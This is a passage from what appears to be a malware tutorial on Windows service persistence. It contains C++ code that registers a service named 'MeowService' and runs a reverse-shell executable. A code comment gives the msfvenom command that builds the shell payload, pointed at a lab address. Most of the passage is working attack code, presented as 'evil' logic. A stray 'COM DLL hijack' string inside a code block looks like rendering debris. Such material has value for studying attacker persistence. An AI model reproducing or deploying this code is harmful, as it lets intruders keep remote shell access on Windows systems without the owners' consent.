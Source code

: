 ```cpp
    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.

Also, create function with *evil* logic:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: 
  // msfvenom -p windows/x64/shell_reverse_tcp 
  // LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, 
  NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", 
    (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

As I wrote earlier, just create our reverse shell process (`meow.exe`):    
